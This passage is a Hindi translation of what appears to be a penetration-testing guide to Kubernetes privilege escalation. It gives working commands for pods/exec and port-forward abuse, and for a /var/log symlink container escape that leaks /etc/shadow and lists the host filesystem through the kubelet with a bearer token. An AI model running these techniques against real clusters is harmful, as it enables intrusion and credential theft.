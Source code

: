 Kubernetes API दस्तावेज़ीकरण इंडिकेट करता है कि "PodTemplateSpec" एंडपॉइंट में container बनाने का विकल्प होता है। और, जैसा कि आप देख सकते हैं: deployment, daemonsets, statefulsets, replicationcontrollers, replicasets, jobs और cronjobs सभी pods बनाने के लिए उपयोग किए जा सकते हैं:

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-8.png)

**इसलिए, क्लस्टर में विशेषाधिकार बनाने या अद्यतन करने की अनुमति भी विशेषाधिकार बढ़ाने के लिए दुरुपयोग किया जा सकता है।**

### **पॉड्स Exec**

**`pods/exec`** कुबरनेटेस में एक संसाधन है जिसका उपयोग **पॉड के अंदर शैल में कमांड चलाने** के लिए किया जाता है। यह विशेषाधिकार प्रशासकों के लिए है जो **कंटेनरों तक पहुंच प्राप्त करना और कमांड चलाना** चाहते हैं। यह कंटेनर के लिए एक SSH सत्र बनाने की तरह है।

यदि हमारे पास यह विशेषाधिकार है, तो हमें वास्तव में **सभी पॉड्स पर नियंत्रण लेने की क्षमता मिलती है**। इसे करने के लिए, हमें निम्नलिखित कमांड का उपयोग करना होगा:
```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```
नोट करें कि जैसे आप किसी भी पॉड में प्रवेश कर सकते हैं, आप **पॉड निर्माण शोषण** में किया गया तरीका अपनाकर अन्य पॉड के टोकन का दुरुपयोग कर सकते हैं ताकि आप विशेषाधिकारों को बढ़ाने का प्रयास कर सकें।

### पोर्ट-फ़ॉरवर्ड

यह अनुमति **एक स्पष्ट पॉड में एक स्थानीय पोर्ट को एक पोर्ट पर आगे भेजने की** अनुमति देती है। इसका उद्देश्य पॉड के अंदर चल रहे एप्लिकेशन को आसानी से डीबग करने के लिए है, लेकिन एक हमलावर इसे दुरुपयोग करके पॉड के अंदर दिलचस्प (जैसे डीबी) या भ्रष्ट (वेब?) एप्लिकेशन तक पहुंच प्राप्त कर सकता है:
```
kubectl port-forward pod/mypod 5000:5000
```
### **होस्ट लिखने योग्य /var/log/ से बचना**

जैसा कि [**इस शोध में दिखाया गया है**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), यदि आपको पहुंच होती है या आपको एक पॉड में **होस्ट `/var/log/` निर्धारित** किया जा सकता है, तो आप **कंटेनर से बच सकते हैं**।
यह मुख्य रूप से इसलिए है क्योंकि जब **Kube-API कंटेनर की लॉग्स** को प्राप्त करने का प्रयास करता है ( `kubectl logs <पॉड>` का उपयोग करके), तो यह **Kubelet** सेवा के `/logs/` एंडपॉइंट का उपयोग करके पॉड के `0.log` फ़ाइल का अनुरोध करता है।
Kubelet सेवा `/logs/` एंडपॉइंट को उदाहरणार्थ **कंटेनर के `/var/log` फ़ाइल सिस्टम को उदाहरणार्थ** प्रकट करती है।

इसलिए, कंटेनर के **/var/log/ फ़ोल्डर में लिखने के लिए पहुंच वाले एक हमलावर** इस व्यवहार का दुरुपयोग 2 तरीकों से कर सकता है:

* अपने कंटेनर की `0.log` फ़ाइल (आमतौर पर `/var/logs/pods/namespace_pod_uid/container/0.log` में स्थित) को **`/etc/shadow` की ओर संकेत करने वाले सिंबलिंक** बनाना। फिर, आप इसे करके होस्ट शैडो फ़ाइल को निकाल सकेंगे:
```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```
* यदि हमलावर किसी प्रमुख कोंट्रोल करता है जिसमें **`nodes/log` को पढ़ने की अनुमति होती है**, तो वह सीधे `/host-mounted/var/log/sym` में `/` के लिए एक **सिंबलिंक** बना सकता है और जब वह **`https://<gateway>:10250/logs/sym/` तक पहुंचता है तो वह मेजबान की रूट** फ़ाइलसिस्टम को सूचीबद्ध करेगा (सिंबलिंक बदलने से फ़ाइलों तक पहुंच प्रदान की जा सकती है)।
```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
```